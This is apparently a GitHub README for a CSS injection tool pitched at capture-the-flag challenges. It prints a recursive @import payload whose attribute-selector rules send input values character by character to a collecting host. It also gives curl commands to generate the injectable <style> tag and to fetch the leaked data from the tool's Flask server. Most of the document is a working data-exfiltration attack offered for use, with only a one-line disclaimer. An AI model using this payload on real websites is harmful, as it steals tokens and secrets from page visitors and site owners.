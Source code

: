 # ONdemand csS injEctioN tool  
The service tool for CSS injection with recursive import. It will be useful for CTF.

This tool provides the following CSS injection payload, and server to listen for leaked data.

```css
@import "http://<HOST>/<key>/<index>/stage2.css";

input[value^="xa"]:first-child {
    background: url("http://<HOST>/<key>/leak/xa");
}
input[value^="xb"]:first-child {
    background: url("http://<HOST>/<key>/leak/xb");
}
input[value^="xc"]:first-child {
    background: url("http://<HOST>/<key>/leak/xc");
}
...
```

CSS has a load priority and will not work as expected if you use import recursive normally. I solved it with the pseudo-class "first-child" chain.  
Reference: https://developer.mozilla.org/docs/Web/CSS/Specificity

## Dependency  
- Python 3.x
- Flask 1.0.3

## Usage  
### Deploy
```
$ pip install -r requirements.txt
```

### Startup service  
```
$ python3 src/onsen.py
```

When the service starts, `api_secret` is output on the console.

### Make payload  
```
$ curl -d 'c=<USAGE CHARS|default:A-Za-z0-9>&s=<TARGET CSS SELECTOR|default:input[value^="{leaked}"]>&key=<KEY|default:urandom(16).hex()>' http://<HOST>/<api_secret>/set
```

`{leaked}` is replaced by the characters set by `c` param.

#### e.g.)  
```
$ curl -d 's=input[value^="{leaked}"]#secret' http://<HOST>/<api_secret>/set
```

#### Output  
```
{
    "key": "<key>",
    "payload": "<style>@import'http://<HOST>/<key>/stage1.css'</style>"
}
```

Set the payload to the target page.

### Check leaked  
```
$ curl http://<HOST>/<api_secret>/get/<key>
```

#### Output  
```
{
    "run": true|false,
    "leaked": "<LEAKED DATA>"
}
```

### Screenshot  
![screenshot](screenshot.gif)

## Debug  
```
$ FLASK_DEBUG=1 python3 src/onsen.py
```

*Warning: If you enable debug, you can access the page that the XSS vulnerability exists.*

## More information  
[src/onsen.py](src/onsen.py)

## Disclaimer  
Don't use on real world websites.
